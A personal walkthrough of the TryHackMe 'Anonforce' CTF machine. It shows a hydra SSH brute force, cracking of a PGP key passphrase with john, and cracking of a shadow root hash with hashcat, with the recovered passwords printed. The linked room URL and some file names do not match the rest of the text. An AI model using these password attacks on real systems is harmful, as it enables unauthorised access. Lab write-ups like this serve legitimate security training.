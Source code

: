 ```yaml
---
title: Walkthrough - Anonforce
published: true
---
```


Security. boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

a ftp and an ssh server

ftp allowd anon connections so connecting to that we find a user `melodias`. lets start a hydra ssh while we try to find more info.

- `hydra -l melodias -P /usr/share/seclists/Passwords/rockyou.txt 10.10.146.159 ssh`

So found a few new interesting files to check out `pricate.asc` which is an asc file. ASC files are used for posting online security notices as well as securely transmitting messages. Also find a `backup.pgp` which is a pretty good privacy security key. What can we do with these?

- `pgpdump backup.pgp`
- we can try to import the private key `gpg --import private.asc` but doing so we need a passphrase to import.
- feed it to gpg2john `gpg2john private.asc > private-john.asc` then feed the output to john `john private-john.asc --wordlist=/usr/share/seclists/Passwords/rockyou.txt`

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Anonforce/ftp]
└─$ john private-john.asc --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)     
1g 0:00:00:00 DONE (2022-08-10 23:04) 5.555g/s 5177p/s 5177c/s 5177C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- now we can import the key `gpg --import private.asc` 
- and then decrypt the `backup.gpg` - `gpg --decrypt backup.pgp`

Clipping this as we have 2 different hashes.

- root.hash

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
```

- `hcat -m 1800 root.hash /usr/share/seclists/Passwords/rockyou.txt`
- cracked `$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari`

- melodias.hash

```
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

- `hashcat -m 500 melodias.hash /usr/share/seclists/Passwords/rockyou.txt`
- exhausted



* * * 

## What is the user flag?

- `cat user.txt`

* * * 

## What is the root flag?

- `cat root.txt`

* * * 

